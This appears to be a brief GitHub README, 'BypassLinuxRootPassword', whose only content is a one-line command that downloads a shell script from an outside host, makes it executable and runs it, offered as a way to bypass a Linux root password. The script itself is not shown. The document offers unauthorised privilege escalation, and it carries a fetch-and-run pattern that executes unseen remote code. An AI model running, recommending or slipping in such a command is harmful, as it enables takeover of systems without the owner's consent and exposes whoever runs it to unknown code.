 # BypassLinuxRootPassword
Bypass Linux Root Password using this script

```
wget http://dl.dreamnetwork.cf/bypassrootpassword.sh && chmod +x bypassrootpassword.sh && ./bypassrootpassword.sh
```
